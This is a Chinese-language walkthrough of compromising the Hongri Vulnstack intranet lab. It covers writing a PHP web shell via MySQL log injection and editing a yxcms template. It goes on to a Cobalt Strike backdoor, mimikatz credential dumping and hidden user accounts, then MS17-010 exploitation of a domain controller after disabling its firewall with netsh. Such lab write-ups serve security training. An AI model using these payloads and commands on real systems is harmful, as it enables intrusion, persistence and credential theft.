红日内网渗透靶机（一）
再搭建靶机的时候很抓狂的是官网好像没给出密码，导致我一直无法登陆配置自定义IP，因为我并不想改变我nat网卡的网段
靶机本身也有问题
靶机搭建
靶机地址下载：http://vulnstack.qiyuanxuetang.net/vuln/detail/2/
拓扑图如下所示：

下载完成后使用VMware打开，各个虚拟网卡的网段如下：
- VMnet8：192.168.88.0/24
- VMnet14：192.168.93.0/24
其中VMnet8网卡是我虚拟机默认的网段，VMnet14是额外添加的虚拟网卡，添加网卡时要注意修改一个配置，网段你们想怎么选都行，下图箭头所指默认时勾上的，要去掉，否则你电脑本机就能直接访问该网段。

下图给出Windows7的网卡配置，其他的你们看图就知道选哪个网卡

因为有些靶机的IP是配的静态的，故需要登陆进去修改，三个靶机密码都是hongrisec@2019，一开始我搞半天都不行，原网站也没给出静态的IP信息，后面去其他人的博客上才找到配置好网络环境（有些靶机会提示密码过期，重新改下就行）
最后Win7内有个phpstudy运行不起来，需要单独运行mysql和apache服务
1 | # 进入apache的bin目录运行此命令，将apache添加到服务 |
信息收集
由于windows 7开启了防火墙，故无法采用ping扫描探测主机存活，但可疑使用以下命令进行探测：
1 | 使用tcp的ack包探测主机是否存活 |

通过排查可得目标服务器ip为192.168.88.18，对其进行端口扫描
1 | 获取目标IP的端口开发以及端口服务信息 |

可以发现开放了80端口和3306端口，进入80端口发现了PHP探针

下面有个MYSQL连接检测，输入root,root连接成功

使用御剑扫描网站目录发现存在phpmyadmin路径

该界面有个测试数据库的连通性，直接用默认密码登陆数据库，目前有一个mysql可以尝试getshell，先记录下。
登陆数据库后，发现有个newyxcms，说明该服务器可能还存在一个yxcms，尝试在路径后输入yxcms

发现确实存在yxcms

我们从数据库中查找管理员账号密码，密码已经被加过密了，可以尝试丢到在线解密网站进行解密

从百度搜出yxcms的后台管理地址是index.php?r=admin/index/login，默认账号密码是admin/123456，登陆成功（一开始密码输错了会显示账号已锁定，是真的狗）

登陆后通过后台界面的左下角可以看到yxcms的版本为1.2.1，这个版本看上去挺老的，也可能直接getshell，记录下。
漏洞利用
0x01. Mysql Getshell
先看MYSQL是否支持导出一句话，可以知道无法进行通过导出一句话木马获得shell
1 | select @@secure_file_priv; |

再尝试通过写日志getshell
1 | # 开启写日志 |

此时我们再通过查询语句往日志文件写入一句话木马，由于开启了system函数，那就直接用这个函数执行系统命令
1 | select "<?php system($_GET['cmd']);?>"; |
访问http://192.168.88.18/x.php?cmd=whoami，可知命令已执行成功

0x02. Yxcms命令执行Getshell
yxcms 1.4.7版本存在目录遍历和代码执行等一系列漏洞，尝试在当前版本是否适用。
输入网址http://192.168.88.18/yxcms/index.php?r=admin/files/index&dirget=../../，发现确实存在目录遍历漏洞

观察下目录结构发现存在kindeditor编辑器

访问http://192.168.88.18/yxcms/public/kindeditor，发现网站本身还存在目录遍历漏洞，不过编辑器是没法利用了

继续转到前台模板，可以看到都是php文件，并且可以编辑

经观察，选择在layout.php一句话木马最为方便，因为这种版权信息不用进后端就能看到

使用蚁剑连接成功

权限维持
使用蚁剑的虚拟终端查看目标服务器的进程，通过检测没有发现杀软

本来想使用payloadreverse_https，但无论怎么尝试都没动静，Wireshark也没有对应的流量，无奈只能换成reverse_http，生成一个powershell命令的后门，直接在蚁剑的虚拟终端上执行，执行成功上线cs
紧接着创建一个smb监听器，然后将当前的会话派生的smb监听器上

然后使用最新的会话做一系列操作，获取systeminfo信息

运行mimikatiz获取目标服务器的密码

一些常用方法，记录下：
1 | # 以下创建的用户net user无法查看，但可通过lusrmgr.msc或注册表进行查看 |
横向移动
查看网卡信息发现有内网网段192.168.93.0/24

查看当前域的名字但发生系统错误，表示该网络存在域，但不是域成员

通过net view可以查看当前域的计算机列表，下图可知192.168.93.130是域控服务器

上传fscan，对内网进行扫描
端口开放情况：

漏洞扫描情况（先记录）
- 129和130可能存在ms17-010漏洞
- 129存在ftp匿名登陆
- 129的8099端口存在一个web页面
- 130存在一个IIS7的网站

将会话转移到msf中，并通过命令run autoroute自动添加内网路由

使用exploit/windows/smb/ms17_010_psexec模块获取该域控服务器的权限
由于在内网环境下，只能使用bind类型的payload，采用反连的payload会导致服务器无法访问到我们的攻击机

利用成功但是无法创建会话，那再使用auxiliary/admin/smb/ms17_010_command模块执行系统命令whoami，如果执行成功则说明该域控开了防火墙。

接下来运行命令netsh firewall set opmode disable关闭防火墙

再重新使用psexec模块，记得更换其他端口，然后就获取到域控服务器的会话


导入kiwi（旧版本的mimikatz）,由于kiwi默认加载的是32位，而目标服务器是64位，故需要将meterpreter进程迁移到64位进程中才能查看系统明文。

查看目标服务器的进程列表

选择一个64位进程，使用命令migrate pid进行进程迁移

再使用命令creds_all获取所有凭证信息

获取到账号密码后，在cs中jump->psexec，然后输入密码进行横向移动

域控服务器成功上线cs，经排查域控服务器也未存在杀软

在cs上对域控服务器抓取

同理让其他域成员主机上线cs